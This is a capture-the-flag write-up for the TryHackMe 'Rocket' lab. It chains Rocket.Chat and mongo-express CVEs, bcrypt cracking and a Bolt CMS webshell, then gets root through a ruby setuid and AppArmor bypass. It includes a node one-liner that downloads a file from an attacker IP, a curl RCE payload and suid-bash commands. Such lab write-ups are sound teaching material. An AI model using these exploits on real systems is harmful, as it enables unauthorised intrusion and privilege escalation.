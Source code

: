 # Rocket

https://tryhackme.com/room/rocket

Rated: HARD

This room is a quest, and has many steps before you find the first flag. In fact, the two flags are the final steps of this room, after a lot of work haha.

1. A scan reveals port 22 and 80. On 80 you are redirected to 'rocket.thm', which is a brochureware site. A bit of investigation reveals this to be built with Bolt CMS, which becomes important (much) later.
2. Enumerating sub-domains using ffuf, you can quickly find 'chat.rocket.thm', running an instance of rocket chat. There are a few CVEs for this, in particular CVE-2021-22911 which allows using a nosql injection to recover a password reset token. There is an exploit for this here https://www.exploit-db.com/exploits/49960, however it is slow as hell and requires a few modifications (removing assumed MFA, and changing the final payload to actually work) so instead I buildt my own here in rust: https://github.com/ChrisPritchard/CVE-2021-22911-rust. This just requires you update the IP address and then it will give you after *much less* time a limited interactive shell.
3. From there, in a docker container, getting a better shell can be tricky as there are no download tools. You can use rocketchat itself (with your new admin login) to upload files, but you can also do with a simple node one liner: `node -e 'require("http").get("http://10.10.16.78:1234/client", res => res.pipe(require("fs").createWriteStream("client")))'`. If this is tricky to get running through the shell, base64 encode it and decode it on the machine before running.
4. Enumerating the machine, you can find details of mongodb in the environment variables. If you create a pivot through the docker container (e.g. using chisel or reverse_ssh) you can access mongodb directly via a cli without creds, but there is nothing inside. Instead, the web interface on 172.17.0.4:8081 is interesting: while it requires creds to access, you can fingerprint it by it returning express in one of the response headers and its port 8081, plus being a mongodb web interface: this is mongo-express. 
5. There is an outstanding CVE for this, CVE-2019-10758. You don't need a custom tool for it, a simple one liner with curl from the attack box through proxychains will work: `proxychains curl 'http://172.17.0.4:8081/checkValid' -H 'Authorization: Basic YWRtaW46cGFzcw=='  --data 'document=this.constructor.constructor("return pr")().mainModule.require("child_process").execSync("id")'`. This will return 'valid' if the command succeeds, which is helpful.
6. Using the above to get a shell on 172.17.0.4, its another locked down docker container. Enumerating it you can find a backups folder, `/backup/db_backup/meteor`. In here is a mongodb backup, but whats interesting is a file named `bson.hash` which contains a username:passwordhash combo. This can be cracked with hashcat or john the ripper - if using hashcat, make sure to include the username in the hash as its presented, then run hashcat with the --username flag (e.g. `hashcat.exe -m 3200 ../hash ../rockyou.txt --username` which will use the username as part of the bcrypt algorithm. this should break in seconds.
7. Back to the initial rocket.thm site, navigating to `/bolt` will reveal a login portal. Use the username in email form, e.g. user@rocket.thm as the username, and the password cracked above to get access to the bolt admin interface.
8. There are plenty of ways to get RCE from here - the simplest to me was to edit main configuration and add pgp to the allowed_media_types. After that, just upload a webshell using file management.
9. This gets you access as 'alvin' and *finally* the first flag.

The final root exploit is a little tricky.

To get to root, a simple enum will quickly reveal `/usr/bin/ruby2.5` has the cap_setuid capability. However, the machine is also running apparmor which restricts what files ruby2.5 can access (as seen in `/etc/apparmor.d/usr.bin/ruby2.5`). Namely, no shells, nothing you can own except files named `/tmp/.X[number]-lock`

Because you can't run a shell, or execute those tmp lock files, the path is a bit complex: instead of trying to run a shell, copy a shell into tmp with this allowed file name as your normal user, mark it as a suid binary, then use ruby2.5 to copy it as the root user while preserving its mode, creating a root-owned suid bash binary you can then run as alvin.

This is complicated initially by the fact that the setuid capability or how apparmor works makes this fail using anything but a *proper* proper shell. To get one, I added my public key into a .ssh/authorized_keys file for alvin, then ssh'd in formally. This seems to resolve EPERM issues running `Process::Sys.setuid(0)`.

Finally, after copying `/bin/bash` to `/tmp/.X1-lock`, making it suid with `chmod u+s /tmp/.X1-lock`, I copied it with `ruby2.5 -e 'Process::Sys.setuid(0); exec "cp --preserve=mode /tmp/.X1-lock /tmp/.X2-lock"'`. I could then run `/tmp/.X2-lock -p` to get a full root shell and the final flag.

A complex room! Took me a loooooong time over many attempts, the occasional hints from walkthroughs to get here.
